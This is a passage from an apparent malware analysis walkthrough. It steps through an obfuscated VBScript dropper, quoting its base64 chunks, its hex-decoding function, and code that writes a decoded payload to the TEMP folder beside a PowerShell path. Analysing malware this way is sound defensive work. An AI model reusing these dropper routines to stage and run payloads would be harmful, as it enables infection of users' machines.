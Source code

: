 The `clabbering` variable, just like the previous one, is built over multiple lines. In this case it appears to be base64 code because once we feed some of the chunks into CyberChef with the "From Base64" it decodes into valid text.

```vb
clabbering = clabbering & "IwBBAEkAUgBFA ... AGEAbgB0AG"
clabbering = clabbering & "kAdAB5AHIAbwAg ... bABrAG8AI"
clabbering = clabbering & "ABuAG8AbgBtAGE ... AbwBpAHMA"
clabbering = clabbering & "IABVAG4AdgBlAG ... MASABVAFQ"
```

Now that we have an idea of the materials being manipulated in the script, let's see how the script uses them. The next chunk of code looks like it's building a PowerShell command. At this point I'm thinking the base64 chunk of text in `clabbering` above will likely be fed into PowerShell for execution. `Fotografe6` looks like it gets fed into a `baggrun()` and `lugsai()` function. Since `shellPath` contains a file path and the string `ISO-8859-1` refers to encoding, my hypothesis is that `lugsai()` writes the contents of `Fotografe6` to disk. Let's go confirm that.

```vb
TMP1 = "%"+"TEMP%"
MyFile =  sired.ExpandEnvironmentStrings("%windir%") & "\SysWOW64\WindowsPowerShell\v1.0\powershell.exe"
Fotografe6 = baggrun(Fotografe6)
shellPath = sired.ExpandEnvironmentStrings(TMP1) & "\Champag6.dat"
lugsai shellPath,Fotografe6,"ISO-8859-1"
```

The `lugsai()` function looks like it works with an ADODB.Stream object, picks a character set, opens a file, and writes text to disk. So far it looks like our hypothesis was correct. 

```vb
Function lugsai(NONN, UNDEGRAD, Lathesme1)
  Dim BinaryStream
  ADO = "ADODB.Stream"
  Set BinaryStream = CreateObject(ADO)
  BinaryStream.Type = 2
  BinaryStream.CharSet = Lathesme1
  BinaryStream.Open
  BinaryStream.WriteText UNDEGRAD
  BinaryStream.SaveToFile NONN, 2
End Function
```

The `baggrun()` function looks like it works with the hex string in `Fotografe6`. The function walks through the hex string and checks for "ZZZ" values. If it doesn't find them it just outputs the hex string.

```vb
Function baggrun(h)
	For i = 1 To len(h) step 2
	if ChrW("&H" & mid(h,i,2)) = "ZZZ" then Wscript.Sleep(1)
	baggrun = baggrun + ChrW("&H" & mid(h,i,2))
	Next
End Function
```
